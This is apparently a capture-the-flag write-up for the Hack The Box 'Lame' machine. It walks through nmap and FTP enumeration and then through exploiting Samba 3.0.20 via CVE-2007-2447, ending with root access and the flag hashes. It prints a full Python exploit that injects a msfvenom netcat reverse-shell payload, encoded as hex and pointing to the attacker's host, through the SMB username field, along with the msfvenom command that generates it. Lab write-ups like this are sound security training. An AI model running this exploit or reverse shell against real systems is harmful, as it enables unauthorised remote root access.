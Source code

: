 # Lame
>Author : Xyan1d3
>Date : 22nd June 2021
>IP : 10.10.10.3
>OS : Linux
>Difficulty : Easy

# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Tue Jun 22 10:23:17 2021 as: nmap -sC -sV -oN nmap/lame -v 10.10.10.3
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.088s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m39s, deviation: 2h49m45s, median: 37s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-06-22T00:54:18-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

We may user the OpenSSH fingerprint to identify the OS running.
![[Pasted image 20210622102743.png]]

From, Here we find out that we have Ubuntu 8.04 Hardy Use's it on default.

## FTP Enumeration
FTP has anonymous login enabled but, has no files inside.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.3]─[~/htb/lame]
└──╼ # ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
```

## SMB Enumeration
We have a SMB Version `Samba 3.0.20-Debian` fingerprint due to a script scan running on SMB.

It has a Buffer Overflow which allows an attacker to get a reverse shell on the box.
Exploit Link : https://github.com/macha97/exploit-smb-3.0.20/blob/master/exploit-smb-3.0.20.py
It is vulnerable to `CVE-2007-2447`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.3]─[~/htb/lame]
└──╼ # cat smb_exploit.py 
#!/usr/bin/python3
#exploit Samba smbd 3.0.20-Debian

from smb import *
from smb.SMBConnection import *

#msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.3 LPORT=8888 -f python
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6b"
buf += b"\x62\x61\x65\x61\x62\x3b\x20\x6e\x63\x20\x31\x30\x2e"
buf += b"\x31\x30\x2e\x31\x34\x2e\x33\x20\x38\x38\x38\x38\x20"
buf += b"\x30\x3c\x2f\x74\x6d\x70\x2f\x6b\x62\x61\x65\x61\x62"
buf += b"\x20\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f"
buf += b"\x74\x6d\x70\x2f\x6b\x62\x61\x65\x61\x62\x20\x32\x3e"
buf += b"\x26\x31\x3b\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x6b"
buf += b"\x62\x61\x65\x61\x62"

userID = "/=` nohup " + buf + "`"
password = 'password'
victim_ip = '10.10.10.3'

conn = SMBConnection(userID, password, "HELLO", "TEST", use_ntlm_v2=False)
conn.connect(victim_ip, 445)
```

We have to change the shellcode of the payload and point it onto our attacker machine.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.3]─[~/htb/lame]
└──╼ # msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.3 LPORT=8888 -f python
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 96 bytes
Final size of python file: 483 bytes
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6b"
buf += b"\x62\x61\x65\x61\x62\x3b\x20\x6e\x63\x20\x31\x30\x2e"
buf += b"\x31\x30\x2e\x31\x34\x2e\x33\x20\x38\x38\x38\x38\x20"
buf += b"\x30\x3c\x2f\x74\x6d\x70\x2f\x6b\x62\x61\x65\x61\x62"
buf += b"\x20\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f"
buf += b"\x74\x6d\x70\x2f\x6b\x62\x61\x65\x61\x62\x20\x32\x3e"
buf += b"\x26\x31\x3b\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x6b"
buf += b"\x62\x61\x65\x61\x62"
```

### Error fixing on the SMB exploit.
Running this exploit.py with python2 we recieve an error.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.3]─[~/htb/lame]
└──╼ # python2 smb_exploit.py
Traceback (most recent call last):        
  File "smb_exploit.py", line 4, in <module>
    from smb import *                     
ImportError: No module named smb
```

It can be easily be solved by installing the `pysmb` module on python2 with pip.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.3]─[~/htb/lame]
└──╼ # python2 -m pip install pysmb 
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support fo
r Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 
21.0 will remove support for this functionality.
Collecting pysmb
  Downloading pysmb-1.2.7.zip (1.3 MB)    
     |████████████████████████████████| 1.3 MB 189 kB/s                             
Requirement already satisfied: pyasn1 in /usr/local/lib/python2.7/dist-packages (from pysmb) (0.4.8)
Building wheels for collected packages: pysmb
  Building wheel for pysmb (setup.py) ... done
  Created wheel for pysmb: filename=pysmb-1.2.7-py2-none-any.whl size=83815 sha256=8a920c3af16b3159f53249df0352557ddfcb5bab7478df6a1fffd50f5144f28a
  Stored in directory: /root/.cache/pip/wheels/00/9f/0c/7bc6eb00f92216dce583cae3cb71a553c3bce2a86225543825                                                               
Successfully built pysmb
Installing collected packages: pysmb      
Successfully installed pysmb-1.2.7
WARNING: You are using pip version 20.3.3; however, version 20.3.4 is available.
You should consider upgrading via the '/usr/bin/python2 -m pip install --upgrade pip' command.
```

# Initial FootHold (root)
After we have changed the exploit shellcode with `msfvenom` and have fixed the module issues with pip we could now run the exploit while listening the the port.

We on running the exploit we recieve a shell in the box as `root`.

![[Pasted image 20210622105932.png]]

Here, We can stabilize the shell with python pty magic and get our `user.txt` and `root.txt`.

```python
root@lame:/root# ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt 
7cf6bf93dd85493bcc6e0390c5083972
root@lame:/root# cd /home/makis/
root@lame:/home/makis# ls
user.txt
root@lame:/home/makis# cat user.txt 
aaaa5ce9629607b0fd80e4ecacee5df5
```

The OS is also infact `Ubuntu 8.04` hardy.
```python
root@lame:/home/makis# cat /etc/*release*
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04"
```